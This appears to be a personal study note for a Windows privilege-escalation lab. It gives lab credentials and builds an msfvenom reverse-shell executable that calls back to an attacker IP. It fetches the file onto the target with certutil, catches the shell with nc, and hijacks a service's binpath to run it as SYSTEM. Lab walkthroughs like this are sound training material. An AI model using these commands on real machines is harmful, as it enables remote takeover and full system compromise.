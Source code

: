 # Windows PrivEsc
Credentials: user:password321
Login via RDP : `xfreerdp3 /u:user /p:password321 /cert:ignore /v:MACHINE_IP`

![[Pasted image 20251006221016.png]]

## Get a reverse shell executable
- on our attacker machine : `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.23.125.244 LPORT=4444 -f exe -o reverse.exe`
- `msfvenom -l payloads` to list all payloads in msfvenom
- Transfer the reverse.exe file to the C:\PrivEsc directory on Windows.
- On attacker :  `python3 http.server 80`
- On Target : `certutil -urlcache -f http://10.23.125.244/reverse.exe reverse.exe`

![[Pasted image 20251006221808.png]]

- set up listener on our machine 
- `nc -lvnp 4444`
- execute the file by running ``C:\PrivEsc\reverse.exe``

![[Pasted image 20251006222022.png]]

## Service exploits - insecure service permissions
- Use accesschk.exe to c**heck the "user" account's permissions on the "daclsvc" service**:

`C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`

Note that the "user" account has the **permission to change the service config** (SERVICE_CHANGE_CONFIG).

![[Pasted image 20251006222140.png]]

- Query the service and note that it runs with **SYSTEM privileges** (SERVICE_START_NAME):

`sc qc daclsvc`

![[Pasted image 20251006222254.png]]

- Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:

`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`

- Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start daclsvc`

![[Pasted image 20251006222525.png]]

## Service Exploits - Unquoted Service Path
Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.
